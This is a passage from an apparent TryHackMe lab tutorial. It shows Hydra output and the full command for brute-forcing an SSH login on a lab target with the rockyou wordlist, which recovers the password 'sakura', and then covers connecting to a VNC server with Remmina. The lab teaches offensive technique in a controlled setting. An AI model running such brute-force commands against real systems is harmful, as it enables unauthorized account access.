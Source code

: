 ```shell-session
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "princess" - 6 of 14344399 [child 5] (0/0)
...
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "poohbear" - 111 of 14344402 [child 1] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "patrick" - 112 of 14344402 [child 2] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "iloveme" - 113 of 14344402 [child 6] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "sakura" - 114 of 14344402 [child 7] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "adrian" - 115 of 14344402 [child 15] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "alexander" - 116 of 14344402 [child 4] (0/3)
[22][ssh] host: MACHINE_IP   login: alexander   password: sakura
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-15 13:41:01
```

You can experiment by repeating the same command `hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V` on the AttackBox’s terminal. The password of the username `alexander` was found to be `sakura`, the 114th in the `rockyou.txt` password list. In TryHackMe tasks, we expect any attack to finish within less than five minutes; however, the attack would usually take longer in real-life scenarios. Options for verbosity or debugging can be helpful if you want Hydra to update you about its progress.

## Connecting to a VNC Server

Many clients can be used to connect to a VNC server. If you are connecting from the AttackBox, we recommend using Remmina. To start Remmina, from the Applications menu in the upper right, click on the Internet group to find Remmina.

![Remmina can be launched from the Internet group in the Applications menu.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/1729f676200d2e232474254d392dd8d1.png)  

If you get a dialog box to unlock your login keyring, click Cancel.

![You can click cancel if asked to unlock your login keyring.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/f1f0cf436eed0c2743b7a400cd4fffb4.png)  

We need to select the VNC protocol and type the IP address of the target system, as shown in the figure below.

![To connect to a VNC server using Remmina, you need to select the VNC protocol and type the IP address of the target.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/14a98c766275f384149522d673a02399.png)